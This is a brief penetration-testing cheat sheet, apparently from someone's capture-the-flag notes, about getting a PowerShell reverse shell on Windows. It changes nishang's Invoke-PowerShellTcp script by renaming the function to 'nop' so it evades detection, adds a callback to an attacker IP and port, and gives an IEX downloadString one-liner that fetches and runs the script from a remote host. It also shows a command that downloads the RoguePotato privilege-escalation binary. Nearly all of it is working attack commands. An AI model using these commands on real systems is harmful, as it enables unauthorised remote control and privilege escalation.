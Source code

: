 # Powershell

powershell reverse shell

```text
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1

#edit this file to have the required reverse shell at the end
#and change the Invoke-PowerShellTcp to nopnopnop

:%s/Invoke-PowerShellTcp/nop/g
^^ in vim

nop -Reverse -IPAddress 10.10.14.28 -Port 4243
this line at the end of shell.ps1

# this is what gets us the reverse shell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.64:81/shell.ps1')"
```

smbserver or powershell download file

```text
invoke-webrequest -uri 'http://10.10.14.28/RoguePotato.exe' -outfile .\rp.exe
```



